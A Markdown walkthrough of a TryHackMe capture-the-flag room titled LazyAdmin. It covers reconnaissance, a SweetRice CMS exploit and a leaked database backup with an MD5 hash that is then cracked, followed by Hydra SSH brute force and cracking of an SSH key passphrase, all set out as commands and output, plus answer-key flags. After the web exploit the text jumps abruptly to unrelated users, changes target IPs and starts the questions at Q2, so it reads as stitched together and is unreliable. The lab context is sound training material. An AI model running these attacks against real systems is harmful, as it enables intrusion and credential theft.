

---
---

<div align="center">

# TryHackMe LazyAdmin


<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/r/room/lazyadmin)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine

	> export IP=10.10.111.97

	```
	10.10.111.97 ()
	```

* ### Attacker Machine

	```
	10.17.38.171 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap -sV -sC $IP -o logs/nmap.log

	```
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
	|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
	|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

* ### Gobuster Scan

	> gobuster dir -u $IP -w ~/tools/wordlists/dirb/common.txt -o gobuster.log

	```
	/.hta                 (Status: 403) [Size: 277]
	/.htpasswd            (Status: 403) [Size: 277]
	/.htaccess            (Status: 403) [Size: 277]
	/content              (Status: 301) [Size: 314]
	/index.html           (Status: 200) [Size: 11321]
	/server-status        (Status: 403) [Size: 277]
	```

* ### Exploring $IP/content/

	```
	Welcome to SweetRice - Thank your for install SweetRice as your website management 	system.
	This site is building now , please come late.

	If you are the webmaster,please go to Dashboard -> General -> Website setting

	and uncheck the checkbox "Site close" to open your website.

	More help at Tip for Basic CMS SweetRice installed
	```


<br>


## Enumeration:

* ### Searching for any exploits for SweetRice 

	> searchsploit SweetRice

	```
	------------------------------------------------------ -----------------------
 	Exploit Title                                         |  Path
	------------------------------------------------------ -----------------------
	SweetRice 0.5.3 - Remote File Inclusion               | php/webapps/10246.txt
	SweetRice 0.6.7 - Multiple Vulnerabilities            | php/webapps/15413.txt
	SweetRice 1.5.1 - Arbitrary File Download             | php/webapps/40698.py
	SweetRice 1.5.1 - Arbitrary File Upload               | php/webapps/40716.py
	SweetRice 1.5.1 - Backup Disclosure                   | php/webapps/40718.txt
	SweetRice 1.5.1 - Cross-Site Request Forgery          | php/webapps/40692.html
	SweetRice 1.5.1 - Cross-Site RF / PHP Code Execution  | php/webapps/40700.html
	SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload | php/webapps/14184.txt
	------------------------------------------------------ -----------------------
	Shellcodes: No Results
	```

	Since the exact version of the CMS couldn't be found anywhere, attempting hit'n'trial method for the available exploits starting from PHP Code Execution as it works most of the times!!

	> searchsploit -m php/webapps/40700.html

	The HTML code needs to be adjusted as given, as it assumes that SweetRice is running on the localhost.

	```HTML
	<form action="http://10.10.111.97/content/as/?type=ad&mode=save" method="POST" name="exploit">
	```

* ### Attempting execution

	> firefox 40700.html

	A login page appears, most probably for the admin panle access. Trying `admin/admin` and `admin/password`.

	Login failed!

* ### Back to exploits

	There's another exploit in the searchsploit result which might be helpful: Backup Disclosure. There is a possibility of storage of admin panel's credentials if a backup file is found!

	> searchsploit -m php/webapps/40718.txt

	The text file gives the location for a backup file. This location, just like the previous HTML code, needs to be adjusted to our needs:

	```
	http://10.10.111.97/content/inc/mysql_backup
	```

	An SQL database is found at the above location.

	> wget http://10.10.111.97/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql

	> cat mysql_bakup_20191129023059-1.5.1.sql | grep admin

	This reveals a bunch of SQL database queries, among which something peculiar shows up.

	```
	"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
	``` 

	From the above output, the user-name for admin appears to be `manager` and the password appears to be encrypted using a hash of 32 characters.

	Trying out on [CrackStation](https://crackstation.net/).

	```
	+----------------------------------+------+-------------+
	| Hash                             | Type | Result      |
	+----------------------------------+------+-------------+
	| 42f749ade7f9e195bf475f37a44cafcb | md5  | Password123 |
	+----------------------------------+------+-------------+
	```

* ### Attempting login with (`manager/Password123`)

	Login successful, but there isn't any sign of the word `hacked` as the PHP Execution Code exploit stated.

	Maybe there's a need to create a login session, and then try the PHP exploit.

	Since, we already have a login session in the browser, trying out the PHP Execution Code exploit again.

	> firefox 40700.html

	Exploit executed successfully!

	


* ### Using Hydra to enumerate jan's password

	> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.136 | tee hydra.log

	```
	[22][ssh] host: 10.10.109.136   login: jan   password: armando
	```


<br>

## THM Questions:

* _Q2_: What is the username? <br> _A_: `jan`
* _Q3_: What is the password?  <br> _A_: `armando`


<br>

## Attempting login (user: jan)

> ssh jan@10.10.99.188

Login successful


<br>

## THM Questions:

* _Q4_: What service do you use to access the server(answer in abbreviation in all caps)? <br> _A_: `SSH`
* _Q5_: What is the name of the other user you found(all lower case)? <br> _A_: `kay`


<br>

## Finding PrivEsc vectors:

* ### linPEAS.sh scan

	Found user `kay's` `id_rsa` readable by user `jan` (logged in via ssh) in `/home/kay/.ssh/`


<br>

## Attempting login (user: kay)

> ssh -i kay_id_rsa kay@10.10.99.188

Login unsuccessful. id_rsa encrypted.


<br>

## Bruteforcing SSH key:

* ### Attempting id_rsa decryption using JohnTheRipper

	> python3 /opt/john/run/ssh2john.py kay_id_rsa > ssh2john.txt
	
	> /opt/john/run/john ssh2john.txt --wordlist=/opt/wordlists/rockyou.txt

	```
	beeswax          (kay_id_rsa)     
	```


<br>

## Attempting login (user: kay) (passphrase: beeswax)

> ssh -i kay_id_rsa kay@10.10.99.188

Login successful.


<br>

# Final Password

> cat /home/kay/pass.bak

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


<br>

# THM Questions:

* _Q6_: What is the final password you obtain? <br> _A_: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev), [LinkedIn](https://www.linkedin.com/in/jayadityadev26/) and [X](https://twitter.com/jayadityadev)

</div>

---
---
